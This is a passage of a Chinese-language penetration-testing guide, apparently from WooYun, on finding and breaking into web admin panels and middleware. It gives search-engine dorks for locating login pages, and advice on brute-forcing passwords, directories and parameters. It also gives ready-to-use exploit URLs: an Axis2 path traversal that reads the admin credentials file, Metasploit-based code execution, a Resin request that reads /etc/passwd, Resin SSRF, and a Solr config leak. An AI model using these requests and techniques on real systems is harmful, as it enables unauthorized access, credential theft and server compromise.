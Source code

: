 4.利用搜索引擎寻找后台或重要系统

常用搜索语法为site:xxx.com inurl:login

Inurl的值可以自由变换，常用的包括admin、manage或者使用intitle:找管理、登录之类的关键字，有些站点出来的结果可能多数为同一站点下的误报，比如博客类的，问问类的，可使用-来减少误报，比如google中搜索site:baidu.com inurl:login -zhidao就可以在结果中去除zhidao相关的结果，百度可输入

site:baidu.com inurl:login -site:zhidao.baidu.com
实例参考: WooYun: 对苏宁易购一次完整的web检测过程（多图）

5.搞一个精简的路径字典

我们可以把容易出问题且危害比较高的常见路径做成一个精简的小字典，针对之前收集的域名去遍历，比如/invoker/JMXInvokerServlet、wwwroot.zip这种，发现的话很大几率可以搞到权限

0x01 利用

这里列出几个常见的系统利用方法

1. 后台

当前面的过程中发现后台或者重要系统时，一般会进行如下几种检测

1）awvs综合扫描（经常有意外发现） 2）目录结构暴破 3）口令暴破（admin不行的时候，不一定是密码不对，很多时候是用户名不对，尝试想到的可获取用户名的一切方法，如翻翻js、css文件，html源码注释内容，或者.svn目录下的信息泄露等，密码可针对系统名称及域名等信息做一些变形加到字典中） 4）Html源码、js等文件获取信息（有些开发者会把一些管理地址以注释形式放到html源码中，管理的接口地址写在js中，运气好的话可以直接越权访问） 5）参数值暴破（一些框架写的后台登陆页面可能是这种格式xx.com/?c=login,日常可以收集一些常见的参数值，如index、main、upload、edit、adduser等、运气好的话可以直接越权操作）

2. axis2

文件包含：

www.xxx.com/axis2/services/listServices 查看所有services

www.xxx.com/axis2/services/xxxxx?xsd=../conf/axis2.xml xxxxx替换任意服务均可，读取axis2配置文件获取后台账户

2014083012385029649.jpg

www.xxx.com/axis2/axis2-admin/ 登陆管理后台

后台部署文件代码执行：

使用metasploit

2014083012392773538.jpg 

Resin

文件读取：

http://www.xxx.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=/etc/passwd

2014083012401614058.png 

也可以通过

http://www.xxx.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://1.1.1.1

实现SSRF

solr敏感信息泄漏

http://xxx.org:8080/solr/admin/file/?file=solrconfig.xml
